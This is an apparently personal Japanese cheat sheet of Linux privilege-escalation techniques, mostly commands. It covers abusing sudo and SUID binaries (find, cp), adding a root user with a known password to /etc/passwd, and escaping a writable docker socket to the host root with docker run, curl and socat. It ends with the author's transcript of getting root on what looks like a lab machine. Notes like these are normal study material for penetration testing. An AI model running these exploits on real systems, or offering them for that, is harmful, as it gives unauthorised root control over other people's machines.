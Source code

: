 # SUID

```bash
sudo -l

# 例えば/bin/chmodがNOPASSWDであれば以下で特権昇格と同等
sudo chmod 777 /root
```

※linpeas.shする前にこれ確認すること



SUIDが付与されいているコマンドを列挙する

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

以下のサイトから特権昇格可能かどうかを確認する

https://gtfobins.github.io/gtfobins/find/

```bash
find . -exec /bin/sh -p \; -quit
```



cpコマンドのSUIDでの特権昇格方法

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

* /etc/passwdの中身をコピーし、kali上で以下行を追加する

  ```
  hack:$1$hack$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash
  ```

* 被害者端末に配送して/etc/passwdを上書する

  ```bash
  cp passwd1 /etc/passwd
  ```

* スイッチングする

  ```
  su hack
  Password: pass123
  ```

  

### Writable docker socks

docker ソケットは通常 /var/run/docker.sock にあり、root ユーザーと docker グループだけが書き込み可能です。
何らかの理由でそのソケットに書き込み権限がある場合は、特権をエスカレートすることができます。
以下のコマンドで権限を昇格させることができます。

```
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

docker パッケージを使わずにソケットから docker web API を使う
docker ソケットにはアクセスできるけど docker バイナリが使えない (インストールすらされていないかも) 場合は、curl を使って直接ウェブ API を使うことができます。
以下のコマンドは、ホストシステムのルートをマウントする docker コンテナを作成し、socat を使って新しい docker にコマンドを実行する方法の一例です。

```bash
# List docker images
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
#[{"Containers":-1,"Created":1588544489,"Id":"sha256:<ImageID>",...}]
# Send JSON to docker API to create the container
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
#{"Id":"<NewContainerID>","Warnings":[]}
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```

最後のステップは、socat を使ってコンテナへの接続を開始し、"attach" リクエストを送信することである。

```bash
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

#HTTP/1.1 101 UPGRADED
#Content-Type: application/vnd.docker.raw-stream
#Connection: Upgrade
#Upgrade: tcp
```

これで、このsocat接続からコンテナ上でコマンドを実行できるようになりました。



上記例に従って以下コマンドを打ってみた。root特権を取得できた。驚き。

```bash
$ docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
root@b218afcff33e:/# whoami
whoami
root
```

```
root@b218afcff33e:~# cat proof.txt
cat proof.txt
93711eeddc98578e3e085c0dc21aa7e2
```

